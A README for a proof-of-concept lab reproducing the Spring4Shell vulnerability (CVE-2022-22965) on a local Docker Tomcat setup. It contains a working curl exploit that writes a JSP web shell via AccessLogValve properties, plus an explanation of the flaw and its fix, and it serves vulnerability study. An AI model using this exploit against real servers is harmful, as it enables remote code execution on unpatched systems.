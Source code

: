 # CVE-2022-22965 PoC

Minimal example of how to reproduce CVE-2022-22965 Spring RCE.

## Run using docker compose

1. Build the application using Docker compose
    ```shell
    docker-compose up --build
    ```
2. To test the app browse to [http://localhost:8080/spring4shell/greeting](http://localhost:8080/spring4shell/greeting)
3. Run the exploit
    ```shell
    ./exploits/run.sh
    ```
4. The exploit is going to create `rce.jsp` file in  `webapps/spring4shell` on the web server.
5.  Use the exploit
Browse to [http://localhost:8080/spring4shell/rce.jsp](http://localhost:8080/spring4shell/rce.jsp)


## Alternative way (debug oriented)

1. Run the Tomcat server in docker
    ```shell
    docker run -p 8888:8080 --rm --interactive --tty --name vm1 tomcat:9.0
    ```
    _Add `-p 5005:5005 -e "JAVA_OPTS=-Xdebug -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"` if you want to debug remotely._
2. Build the project
    ```shell
    ./mvnw install
    ```
3. Deploy the app
    ```shell
    docker cp target/handling-form-submission-complete.war vm1:/usr/local/tomcat/webapps
    ```
4. Write the exploit
    ```shell
    curl -X POST \
      -H "pre:<%" \
      -H "post:;%>" \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{pre}iSystem.out.println(123)%{post}i' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/handling-form-submission-complete' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=rce' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' \
      http://localhost:8888/handling-form-submission-complete/greeting
    ```
    The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.

5. Use the exploit
    ```shell
    curl http://localhost:8080/rce.jsp
    ```
    Now you'll see `123` in the container's terminal. Replace `System.out.println(123)` with your payload to execute arbitrary code.

## Short technical explanation

1. Spring knows how to bind form fields to Java object. In our example `GreetingController` handle POST requests on `/greeting` endpoint and binds form fields to the `Greeting` object.
2. It also supports binding of nested fields (e.g. `user.info.firstname`). See the [AbstractNestablePropertyAccessor](https://github.com/spring-projects/spring-framework/blob/8baf404893037951ac29393a41d40af4fa11775b/spring-beans/src/main/java/org/springframework/beans/AbstractNestablePropertyAccessor.java#L622) for references.
3. In our example `Greeting` class has two fields `id` and `content`, but actually it also has a reference to the Class object. We can use `class.module.classLoader` as a form data key to access the classloader.
4. In the [fix](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15) we can see that the main change was to restrict access to most of the Class object properties, including the `module` one.
5. This behaviour allows us to set public properties of classes accessible via nested reference chain from the `Greeting` class. Nothing else. In most of the cases it is not even dangerous because no classes with public fields are available even from `class.module.classLoader.`.
6. It becomes a problem on the Tomcat server because the classloader there has [`getResources` accessor](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/loader/WebappClassLoaderBase.html#getResources()) which allows us to continue the reference chain and access one of the instances of [the `AccessLogValve` class](https://tomcat.apache.org/tomcat-9.0-doc/api/org/apache/catalina/valves/AccessLogValve.html).
7. This class is meant to write logs. We change some properties to make it write files with the name and content of our choice. We have arbitrary file write at this point.
8. We create `jsp` file with in the root of the application folder with the malicious payload. As far as `jsp` are automatically executed by the Tomcat we can navigate to it in the browser and eventually execute the payload. Now it is RCE.

## Conditions

The exploit works only on Tomcat because it has special classloader. Although the similar reference chain may exist on other web application servers as well. It is not simply discovered yet.

The exploit requires Java 9 or above because `module` property was added in Java 9.

## References

- The server part is based on the https://gist.github.com/esell/c9731a7e2c5404af7716a6810dc33e1a step-by-step manual.
- The exploit part is based on https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/0c557e85ba903c7ad6f50c0306f6c8271736c35e/poc.py script.
- Snyk advisory about the vulnerability is available here: https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751 
